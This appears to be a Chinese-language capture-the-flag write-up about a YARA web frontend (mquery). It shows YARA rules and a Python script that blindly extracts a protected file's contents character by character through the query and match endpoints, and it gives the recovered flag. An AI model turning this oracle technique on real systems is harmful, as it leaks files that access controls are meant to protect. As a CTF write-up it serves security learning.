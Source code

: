 进去后是个mquery-web，也就是yara的Web前端，可以自写rule来匹配目录中的文件内容

尝试一下

```
rule evil {
    strings:
        $s = "p4{"
    condition:
        $s
}
```

可以看到匹配出来`/opt/bin/getflag`，正常情况下可以直接通过`/api/download`路由下载文件的，不过该题应该是改了源码，该路由会返回401（亏我还去翻历史版本看哪里加了限制）

思考了一下，应该是盲注没跑了，首先手动二分一下确定flag字符串的offset是1796：

```
rule evil {
	strings:
		$s = "p4{"
	condition:
		$s and $s in (1796..1798)
}
```

然后写个脚本盲注就好了：

{% raw %}

```python
import requests

# 5KB - 6KB
payload = """rule evil{{
strings:
    $s = "{}"
    condition:
        $s and $s in (1796..{})
    }}"""

url = 'https://hidden.zajebistyc.tf'
proxy = {'https': 'socks5://127.0.0.1:1080'}

flag = "p4{ind3x1ng-l3ak5}"
for i in range(16, 50):
    for w in """abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ`~!@#$%^&*()_-+='}{[];<>?/""":
        if w == '"':
            w = '\\"'

        _p = payload.format(flag + w, 1798 + i)
        print(w)
        r = requests.post(
                url + '/api/query/medium',
                json={'method': 'query', 'raw_yara': _p},
                proxies=proxy,
        )
        try:
            h = r.json().get('query_hash')
        except:
            print(r.text)
            continue
        if h is not None:
            r = requests.get(f'{url}/api/matches/{h}?offset=0&limit=50', proxies=proxy)
            if '/opt/bin/getflag' in r.text:
                flag += w
```